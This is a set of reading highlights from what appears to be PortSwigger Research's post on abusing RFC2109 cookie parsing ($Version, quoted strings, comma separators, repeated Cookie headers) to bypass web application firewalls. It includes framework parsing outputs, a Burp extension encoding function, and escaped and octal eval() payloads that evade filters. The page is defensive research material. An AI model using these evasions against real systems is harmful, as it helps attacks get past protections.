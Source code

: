 ```yaml
---
author: PortSwigger Research
aliases:
  - Bypassing WAFs With the Phantom $Version Cookie
tags:
  - readwise/articles
url: https://portswigger.net/research/bypassing-wafs-with-the-phantom-version-cookie
date: 2024-12-13
---
```

# Bypassing WAFs With the Phantom $Version Cookie

![rw-book-cover](https://portswigger.net/cms/images/5c/91/f7f8-twittercard-twitter-card-orange.png)

## Highlights


In this post, I'll explore some dangerous, lesser-known features of modern cookie parsers and show how they can be abused to bypass web application firewalls.
> [View Highlight](https://read.readwise.io/read/01jee9vb3y85785dz7jzndptjz)


# Downgrading cookie parsers with $Version

`Cookie: $Version=1; foo="bar"; $Path="/"; $Domain=abc;`
 
 `$Version` is a required attribute, identifying the version of the state management specification to which the cookie conforms.
> [View Highlight](https://read.readwise.io/read/01jee9xzhrabqhkzqv1vzwgvy0)

Modern frameworks analyze that header in the following ways:
```json
Flask: {"foo":"bar","$Version":"1","$Path":"/","$Domain":"abc"}
Django:{"foo":"bar","$Version":"1","$Path":"/","$Domain":"abc"}
PHP: {"foo":"\"bar\"","$Version":"1","$Path":"\"\/\"","$Domain":"abc"}
Ruby: {"foo":"\"bar\"","$Version":"1","$Path":"\"\/\"","$Domain":"abc"} 
Spring: { "foo": "\"bar\""} 
SimpleCookie: { "foo": "bar"}
```
> [View Highlight](https://read.readwise.io/read/01jee9zz0hv5t429grwvfq331s)


# Bypass Web Application Firewalls (WAFs)

Many WAFs are not equipped to detect the techniques described above, allowing malicious payloads to be hidden within quoted strings.

## Bypassing value analysis with quoted-string encoding

- semicolons (;), 
- commas (,), 
- newline characters (\n), 
- backslashes (\). 
 
While typically restricted in cookie values, these can sometimes be manipulated to trigger vulnerabilities. Implementing this type of quoted cookie encoding can be easily achieved using a Burp Suite extension with the [HttpHandler interface](https://github.com/PortSwigger/burp-extensions-montoya-api-examples/blob/main/httphandler/src/main/java/example/httphandler/MyHttpHandler.java)
> [View Highlight](https://read.readwise.io/read/01jeea3p8k7epvme79pdcyzt57)

```py
def handleHttpRequestToBeSent(requestToBeSent):
    result = "$Version=1; "
    for param in requestToBeSent.parameters:
        result += f"{param.name}=\""
        for char in param.value:
            result += f"\\{char}"
        result += "\"; "
    return continueWith(requestToBeSent.withAddedHeader("Cookie",result))
```

```
eval() => allowed 
eval('test') => forbidden 
"\e\v\a\l\(\'\t\e\s\t\'\)" => allowed 
"\145\166\141\154\050\047\164\145\163\164\047\051" => allowed
```
> [View Highlight](https://read.readwise.io/read/01jeea48a1n0pjzk6cbtmr5895)


## Bypassing cookie-name blocklists

Another crucial aspect of RFC2109: a server should also accept a comma (,) as a separator between cookie values. This can be exploited to bypass simple WAF signatures that may not anticipate a cookie name being concealed within the value.

```
Cookie: $Version=1; foo=bar, abc = qux 
	=> "abc": "qux"
```
> [View Highlight](https://read.readwise.io/read/01jeea6002hx00t3a5zcp883jc)

## Bypassing value analysis with cookie splitting

Like many other HTTP headers, the Cookie header can be sent multiple times in a single request. The way how a server handles multiple identical headers may then vary
> [View Highlight](https://read.readwise.io/read/01jeea6twyzh2bdvwcdh3k1v5b)


```http
GET / HTTP/1.1 
Host: example.com 
Cookie: param1=value1; 
Cookie: param2=value2;
```

 Got the following back:
 
 ```
Flask: { "param1": "value1", ",param2": "value2"} 
Django: { "param1": "value1", ",param2": "value2"} 
PHP: { "param1": "value1", ",_param2": "value2"} 
Ruby: { "param1": "value1", ", param2": "value2"} 
Spring: { "param1": "value1", "param2": "value2"}
```
> [View Highlight](https://read.readwise.io/read/01jeea70mpgyecnyx8eqex1db3)

Quoted cookie values are also supported, which allows hiding malicious payloads by using the Cookie header as a multi-line header continuation.
> [View Highlight](https://read.readwise.io/read/01jeea879mnkznv34j8g8q01hc)

```
Cookie: name=eval('test') => forbidden 
Cookie: name=eval('test// 
Cookie: comment') 

Resulting cookie: name=eval('test//, comment') => allowed
```
> [View Highlight](https://read.readwise.io/read/01jeea9ft91pxrd342w3d72w33)